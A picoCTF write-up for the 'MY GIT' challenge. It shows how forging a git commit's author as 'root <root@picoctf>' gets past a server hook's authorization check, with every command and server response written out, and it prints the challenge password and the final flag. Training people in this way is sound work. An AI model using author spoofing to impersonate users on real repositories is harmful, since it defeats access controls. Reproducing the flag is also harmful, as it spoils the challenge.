





# MY GIT — picoCTF Writeup
## Description

> I have built my own Git server with my own rules!
>
> You can clone the challenge repo using the command below:
> `git clone ssh://git@foggy-cliff.picoctf.net:64472/git/challenge.git`
>
> Here's the password: `e38a0906`
>
> Check the README to get your flag!



---

## Solution

### Step 1 — Clone the repository

```bash
git clone ssh://git@foggy-cliff.picoctf.net:64472/git/challenge.git
cd challenge
```

Accepted the SSH host fingerprint prompt (`yes`) and entered the provided password `e38a0906`. Git cloned 3 objects successfully.

```bash
ls -ls      # README.md visible
ls -la      # .git/ directory visible too
cat README.md
```

```
# MyGit

### If you want the flag, make sure to push the flag!

Only flag.txt pushed by `root:root@picoctf` will be updated with the flag.

GOOD LUCK!
```

The server uses a **post-receive git hook** that checks whether `flag.txt` was committed by the author `root <root@picoctf>`. If it matches, it returns the flag.



---

### Step 2 — Inspect existing commit history and remote

```bash
git log --oneline --all
# b4b49f2 (HEAD -> master, origin/master, origin/HEAD) Challenge commit

git show HEAD
# Shows README.md added by git <git@picoctf>

git remote -v
# origin  ssh://git@foggy-cliff.picoctf.net:64472/git/challenge.git (fetch/push)

cat .git/config
```

Only one existing commit. The remote is the picoCTF server. The hook logic is clear — we need to push as `root <root@picoctf>`.



---

### Step 3 — Create flag.txt, configure identity, commit as root

```bash
echo "give me flag" > flag.txt
git add flag.txt

# First commit attempt fails — no identity configured on this machine
git commit --author="root <root@picoctf>" -m "add flag"
# fatal: unable to auto-detect email address
```

Set the local git identity to satisfy the committer requirement:

```bash
git config user.name "root"
git config user.email "root@picoctf"
```

Now commit again with the spoofed author:

```bash
git commit --author="root <root@picoctf>" -m "add flag"
```

```
[master a9d26c6] add flag
 1 file changed, 1 insertion(+)
 create mode 100644 flag.txt
```



---

### Step 4 — Push and receive the flag

```bash
git push origin master
```

```
remote: Author matched and flag.txt found in commit ...
remote: Congratulations! You have successfully impersonated the root user
remote: Here's your flag: picoCTF{1mp3rs0n4t4_g17_345y_02a39618}
```

The server-side post-receive hook validated the author field on the commit and returned the flag in the push output.



---

## Flag

```
picoCTF{1mp3rs0n4t4_g17_345y_02a39618}
```

---

## Key Concepts

| Concept | Detail |
|---|---|
| SSH git authentication | Cloning over SSH with a password |
| `git log` / `git show` | Inspect commit history and diffs |
| `git config user.*` | Set local committer identity |
| `--author` flag | Override commit author independently of committer |
| Server-side git hooks | `post-receive` hook validates the author field on push |
| Git impersonation | Git does **not** verify author identity — anyone can set any name/email |
| `git remote -v` | See where push/fetch are pointed |
